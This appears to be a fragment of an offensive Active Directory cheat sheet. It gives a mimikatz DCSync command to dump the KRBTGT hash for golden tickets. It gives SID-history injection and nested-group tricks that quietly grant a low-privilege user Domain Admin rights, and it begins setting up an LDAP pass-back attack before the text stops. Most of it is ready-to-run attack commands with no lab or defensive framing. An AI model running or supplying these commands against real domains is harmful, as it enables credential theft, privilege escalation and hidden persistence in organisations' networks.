 The KRBTGT password hash<br>
The FQDN of the domain<br>
The username of the account we want to impersonate<br>
The Security Identifier (SID) of the domain<br>
KRBTGT Password Hash<br>
mimikatz.exe<br>
 lsadump::dcsync /user:DOMAIN\krbtgt<br>
 
Get-ADComputer -Identity "DC"<br>
Get-ADGroup -Identity "Enterprise Admins" -Server dc.domain.local<br>
 
# PERSISTENCE
 ## SID HISTORY
 Basically this makes low priv user a Domain Admin<br>
 Check SID History Of User<br>
Get-ADUser phillip.wilkins -properties sidhistory,memberof<br>
Get SID Of The Domain Admins<br>
Get-ADGroup "Domain Admins"<br>
Patch History<br>
Stop-Service -Name ntds -force <br>
Add-ADDBSidHistory -SamAccountName 'phillip.wilkins' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath C:\Windows\NTDS\ntds.dit <br>
Start-Service -Name ntds<br>
 
## Group Memberships
### Create Nested ADGroup
New-ADGroup -Path "OU=IT,OU=People,DC=DOMAIN,DC=LOCAL" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security<br>
New-ADGroup -Path "OU=SALES,OU=People,DC=DOMAIN,DC=LOCAL" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security <br>
### Add Last Group To Domain Admins Group
Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"<br>
Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup2"<br>
Add User To The First Group<br>
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"<br>
### Verify if That  Worked:
Get-ADGroupMember -Identity "Domain Admins"<br>
<br><br>
 # AD CHEATSHEET
 https://wadcoms.github.io/#
## Breaching
### LDAP Pass-Back Attack
Can be used if any other service uses AD LDAP and we can trick it to connect to our own malicious LDAP server instead of the target's<br>
<b>Install Slapd</b><br>
 sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd<br>
 <b>Reconfigure Each Time</b><br>
 <b>Note: set domains to match targets domain!!</b><br>
